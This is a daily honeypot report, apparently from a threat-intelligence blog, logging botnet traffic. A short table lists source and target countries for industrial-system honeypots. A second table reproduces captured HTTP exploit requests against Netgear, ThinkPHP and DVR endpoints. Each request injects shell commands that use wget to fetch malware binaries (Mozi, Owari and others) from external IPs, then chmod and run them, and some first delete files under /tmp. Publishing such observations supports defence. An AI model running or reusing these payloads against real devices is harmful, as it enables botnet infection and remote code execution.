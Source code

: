 ```yaml
---
title: "Report: 2025-03-25 "
date: 2025-03-25
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-25
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Australia          |
| CN               | Georgia            |
| RO               |                    |
| IT               |                    |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                       |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 103.208.105.225 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.208.105.225:45070/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                |
| 113.59.144.139  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                         |
| 87.121.84.41    | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F193.32.162.27%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20sex HTTP/1.1                                  |
| 87.121.84.195   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F193.32.162.27%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20sex HTTP/1.1                                  |
| 185.191.127.222 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                     |
| 185.191.127.222 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F103.153.68.112%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                   |
| 121.22.35.6     | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                 |
| 217.160.89.196  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://45.137.70.156/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1       |
| 200.81.185.179  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://157.230.218.54/bins/nine.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 84.195.192.75   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                 |
| 58.93.52.144    | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://200.129.143.6/Binarys/Owari.arm;chmod+777+/tmp/Owari.arm;sh+/tmp/Owari.arm arm4.jaws HTTP/1.1                                                                                                        |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

